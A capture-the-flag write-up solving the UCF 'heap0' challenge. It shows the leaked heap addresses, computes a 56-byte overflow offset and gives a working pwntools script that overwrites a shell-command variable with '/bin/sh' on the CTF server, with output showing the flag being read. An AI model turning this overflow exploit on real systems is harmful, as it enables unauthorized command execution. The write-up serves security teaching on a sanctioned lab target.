 So we are given an elf, without the source code. However we might not need to reverse it to find out what it does. Let's try just running the program.

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/heap0$ ./heap0 
username at 0x58518140
shell at 0x58518178
Enter username: guy
Hello, guy. Your shell is /bin/ls.
exploit.py  heap0  libpwnableharness32.so
```

So from here, it first tells us the address of our input (which is username), and the address of the shell. It takes our input, prints it out along with the current value for shell and then runs shell as a system command.
From here it looks like there might be a heap exploit where we can overflow the value of shell. Since they gave us the address of our input, and where we want to override let's find the buffer that we will need to use in order to reach shell.

```
0x58518178 - 0x58518140 = 56
```

Now that we know the buffer, let's see if this exploit exists. We will be trying to set shell equal to "/bin/sh" to give us a shell. Here is the python script to test it.

```
#This imports the pwntools library
from pwn import *

#This sets up the remote connection to the server
conn = remote("ctf.hackucf.org", 7003)

#This recieves the first few lines of text
conn.recvline()
conn.recvline()

#This set's up the payload which we will send
payload = "0"*56 + "/bin/sh"

#This sends the payload
conn.sendline(payload)

#This drops to an interactive shell
conn.interactive()
```

Now let's try the exploit!

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/heap0$ sudo python exploit.py 
[+] Opening connection to ctf.hackucf.org on port 7003: Done
username at 0x57b0f008

shell at 0x57b0f040

Enter username: Hello, 00000000000000000000000000000000000000000000000000000000/bin/sh. Your shell is /bin/sh.

[*] Switching to interactive mode
$ ls
flag.txt
heap0
$ cat flag.txt
flag{heap_challenges_are_not_as_scary_as_most_people_think}
$ 
[*] Interrupted
[*] Closed connection to ctf.hackucf.org port 7003
```

And just like that, we pwned the binary...
